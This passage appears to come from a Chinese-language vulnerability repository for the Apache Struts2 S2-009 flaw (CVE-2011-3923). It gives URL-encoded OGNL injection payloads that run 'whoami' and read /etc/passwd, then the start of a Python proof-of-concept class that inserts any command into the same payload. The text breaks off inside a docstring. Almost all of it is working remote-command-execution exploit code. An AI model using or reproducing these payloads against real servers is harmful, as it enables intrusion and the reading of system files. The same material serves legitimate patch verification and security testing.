 #### 执行命令

```java
?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27whoami%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```

#### 读取文件

```java
?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27cat%20/etc/passwd%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```

### POC

```python
#!/usr/bin/env python3

import urllib
import random
import string
import requests

class S2_009_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-009漏洞,又名CVE-2011-3923漏洞',
            'description': 'Struts2 S2-009漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.1',
            'date': '2012-01-20',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if  '.action' not in self.url:
            self.url = self.url + '/ajax/example5.action'
        self.capta = self.get_capta() 
        self.payload =  '?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27{cmd}%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]'
       
    def filter(self, check_str):
        temp = ''
        for i in check_str:
            if i != '\n' and i != '\x00':
                temp = temp + i
        return temp
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

```